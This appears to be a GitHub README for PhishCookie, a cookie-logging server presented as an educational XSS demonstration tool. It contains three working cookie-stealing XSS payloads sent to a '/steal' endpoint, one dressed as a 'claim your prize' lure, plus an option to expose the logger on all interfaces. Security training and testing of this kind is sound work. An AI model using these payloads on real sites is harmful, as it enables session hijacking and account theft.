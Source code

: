 # PhishCookie



PhishCookie is an educational tool designed to demonstrate how cross-site scripting (XSS) vulnerabilities can be exploited. It creates a simple HTTP server that can be used in controlled environments to showcase cookie theft and other XSS attack vectors.



## ⚠️ IMPORTANT DISCLAIMER

**This tool is created STRICTLY for:**
- Educational purposes
- Authorized security testing
- Controlled lab environments
- Cybersecurity training

**NEVER use this tool against any website or user without explicit permission. Unauthorized use is illegal and unethical.**

## 🔍 Overview

PhishCookie simulates how malicious actors exploit XSS vulnerabilities to steal cookies and other sensitive information. By understanding these techniques, developers and security professionals can better protect their applications.

![How XSS Works](https://placeholder-for-diagram.png)

## ✨ Features

- **Cookie Logger**: Captures and displays cookies sent via XSS payloads
- **Request Inspector**: Analyzes all incoming request data
- **Payload Generator**: Creates ready-to-use XSS payloads for testing
- **Simple Web Interface**: View logged data through an intuitive dashboard
- **Educational Resources**: Includes documentation on XSS prevention

## 📋 Installation

```bash
# Clone the repository
git clone https://github.com/yourusername/PhishCookie.git

# Navigate to the directory
cd PhishCookie

# No additional dependencies required!
```

## 🚀 Quick Start

1. Start the PhishCookie server:

```bash
python phish_cookie.py
```

2. By default, the server runs on port 8080:

```
[*] PhishCookie server started on port 8080
[*] Waiting for incoming XSS payloads...
```

![Server Running](https://placeholder-for-screenshot.png)

## 💉 XSS Payload Examples

### Basic Cookie Stealer

```html
<script>
  fetch('http://localhost:8080/steal?cookie=' + encodeURIComponent(document.cookie))
    .then(response => console.log('Cookie sent'))
    .catch(error => console.error('Error:', error));
</script>
```

### Clickjacking Attack

```html
<a href="javascript:void(document.location='http://localhost:8080/steal?cookie='+document.cookie)">
  Click here to claim your prize! 🎁
</a>
```

### Image-Based Stealer (No JS Console Visibility)

```html
<img src="x" onerror="this.src='http://localhost:8080/steal?cookie='+document.cookie" style="display:none">
```

![XSS Attack Flow](https://placeholder-for-attack-flow.png)

## 📊 Understanding the Output

When a victim triggers an XSS payload, PhishCookie logs detailed information:

```
[+] XSS Payload Triggered! [2025-04-23 14:32:12]
[+] Source IP: 192.168.1.105
[+] User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
[+] Cookies Captured: 
    - sessionid=a68d42f0e8b11d3e7955
    - user_pref=dark_mode=true
    - _ga=GA1.2.1234567890.1234567890
[+] Referrer: https://vulnerable-site.example/login
```

## 🛡️ Prevention Techniques

PhishCookie helps demonstrate why these security measures are essential:

1. **Content Security Policy (CSP)**
2. **HttpOnly and Secure Cookie Flags**
3. **Input Validation & Output Encoding**
4. **X-XSS-Protection Headers**
5. **Modern Framework Protections**

## 🧪 Testing Scenarios

- **Self-XSS Demonstration**: Test on your own pages to understand impact
- **CTF Practice**: Use in cybersecurity competitions
- **Security Awareness**: Train team members on XSS risks
- **Penetration Testing**: During authorized security assessments

![Testing Scenario](https://placeholder-for-testing.png)

## 🔧 Advanced Configuration

PhishCookie supports several command-line arguments:

```bash
python phish_cookie.py --port 9090 --interface 0.0.0.0 --log-file cookies.log
```

| Option | Description |
|--------|-------------|
| `--port` | Server listening port (default: 8080) |
| `--interface` | Binding interface (default: localhost) |
| `--log-file` | Save captured data to file |
| `--web-interface` | Enable web dashboard (default: disabled) |

## 📚 Educational Resources

- [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [PortSwigger XSS Learning Materials](https://portswigger.net/web-security/cross-site-scripting)
- [Mozilla Developer Network - Web Security](https://developer.mozilla.org/en-US/docs/Web/Security)

## 🤝 Contributing

Contributions that improve the educational value of this tool are welcome:

1. Fork the repository
2. Create your feature branch (`git checkout -b feature/educational-improvement`)
3. Commit your changes (`git commit -m 'Add new educational content'`)
4. Push to the branch (`git push origin feature/educational-improvement`)
5. Open a Pull Request

## 📜 License

Distributed under the MIT License. See `LICENSE` for more information.

## 📞 Contact
Project Link: [https://github.com/Sergeb250/PhishCookie](https://github.com/Sergeb250/PhishCookie)
